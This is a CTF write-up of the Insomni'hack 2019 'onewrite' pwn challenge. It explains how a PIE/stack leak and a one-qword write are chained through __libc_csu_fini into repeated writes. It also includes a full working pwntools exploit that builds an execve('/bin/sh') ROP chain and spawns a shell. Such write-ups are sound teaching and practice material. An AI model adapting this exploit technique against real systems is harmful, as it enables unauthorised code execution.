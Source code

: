 ```yaml
---
layout: post
title: ! "[Insomni'hack 2019] onewrite writeup"
comments: true
excerpt_separator: <!--more-->
tags:
  - Write-up
  - CTF
  - Pwn
  - MyriaBreak
---
```

### Description

> [File](../images/myria/onewrite-writeup/onewrite) is here
> difficulty: easy
>_  nc onewrite.teaser.insomnihack.ch 1337

<!--more-->
A program is a Simple.

```bash
All you need to pwn nowadays is a leak and a qword write they say...
What do you want to leak ?
1. stack
2. pie
 > 1
0x7fff979bf4a0
address : 140735736968352   
data : 12345678
 ```

we can leak a `stack` or `do_leak` function pointer for us once. Then, it will call `do_overwrite` which allows us to overwrite 8 byte to arbitrary address.

 ```bash
 [*] '/home/myria/CTF/Insomni_hack/onewrite/onewrite'
     Arch:     amd64-64-little
     RELRO:    Partial RELRO
     Stack:    Canary found
     NX:       NX enabled
     PIE:      PIE enabled

 and binary is "statically linked"
 ```

but, the binary is statically linked, we need leak `stack` and `pie` both of all.
The attack is summarized as follows.

 1. Leak `PIE` address
 2. Overwrite `pie_addr + 0x2a55a3` with `main` address
 3. Program end. And the `exit` will be called after `main` returns.
 (it call `__libc_csu_fini` function)
 4. `__libc_csu_fini` function call `QWORD [pie_addr + 0x2a55a3]`. so we again jump to `main` function.
 5. Leak `Stack` address
 6. Write a `ropchain` in the `bss`
 7. Jump `ropchain`
 8. Get Shell

The exit function is called after the main function ends. Then, the function `__libc_csu_fini` is called and you can return to main by using the `call QWORD PTR [rbp + rbx*8+0x0]` of `<__ libc_csu_fini+40>`.
![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_03.PNG)

![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_01.PNG)

 `6. Write a 'ropchain' in the 'bss'` is hard part. so i need to be able to write 8 bytes somewhere and `jump free` from the main function again.
You can adjust the `stack` by omitting the function's prologue or epilogue appropriately.
 manipulate the return address of the `main function` and manipulate the return address of the `do_leak function`. (`sub rsp, 0x18` ,` add rsp, 0x18` or `sub rsp, 0x8` ,` add rsp, 0x8`)
Then the `stack` is configured as shown below. Now we got one ``free write`` via two operations.

![]({{ site.baseurl }}/images/myria/onewrite-writeup/onewrite_02.PNG)

The rest is simple. configure ropchain and use `pop rsp; ret`

#### [Korean writeup](https://xerxes-break.tistory.com/401)

### The full exploit code

 ```python
 from pwn import *

#conn = remote("onewrite.teaser.insomnihack.ch", 1337)
conn = process("onewrite")

def leak(select):
	conn.recvuntil(" > ")
	conn.sendline(str(select))
	leak_addr = int(conn.recvline().strip(), 16)
	return leak_addr

def write(addr, data):
	conn.recvuntil("address : ")
	conn.send(str(addr))
	conn.recvuntil("data : ")
	conn.send(data)

## Stage 1
# do_leak func address leak
pie_addr = leak(2)
log.info("pie_address : " + hex(pie_addr))

target = pie_addr + 0x2a55a3 # rbp+rbx*8+0x0   //   call QWORD PTR [rbp+rbx*8+0x0]
main = pie_addr + 0xa3		# main function address
write(target, p64(main))

## Stage 2
# stack_address leak
stack_addr = leak(1)
target = stack_addr  + 0x28	# return address (main function)
log.info("stack_address : " + hex(stack_addr))
write(target, p64(main))


def write_arbitrary(addr, data):
	# stack_address += 8
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	target = stack_addr  + 0x28
	write(target, p64(main))

	# stack_address -= 8
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	target = stack_addr  + 0x18
	write(target, p64(main))

	# main_ret => main
	# free write! and return Main
	stack_addr = leak(1)
	log.info("stack_address : " + hex(stack_addr))
	log.info("writing")
	write(addr, data)	# free write

# rop_gadget
pie_base = pie_addr - 0x000008A15
pop_rdi = pie_base + 0x000858fb
pop_rsi = pie_base + 0x0008551a
pop_rdx = pie_base + 0x000484c5
pop_rax = pie_base + 0x0004654c
syscall = pie_base + 0x00088834

bss_address = pie_base + 0x2B38D0

log.info("pie_base : " + hex(pie_base))

# write "/bin/sh" to BSS
write_arbitrary(bss_address, "/bin/sh\x00")

idx = 2
def rop(data):
	global idx
	write_arbitrary(bss_address + idx*8, p64(data))
	idx+=1

# write rop_chain to BSS
rop(pop_rdi)
rop(bss_address)
rop(pop_rsi)
rop(0)
rop(pop_rdx)
rop(0)
rop(pop_rax)
rop(59)
rop(syscall)

def trigger_rop():
	stack_addr = leak(1)
	target = stack_addr  + 0x28
	log.info("stack_address : " + hex(stack_addr))
	write(target, p64(main))

	pop_rsp = pie_base + 0x00087c46
	rop_chain = bss_address + 0x10

	# jump ropchain
	write_arbitrary(stack_addr + 0x40, p64(pop_rsp))
	write_arbitrary(stack_addr + 0x48, p64(rop_chain))

trigger_rop()
leak(1)
write(1,"id\n")

conn.interactive()
 ```
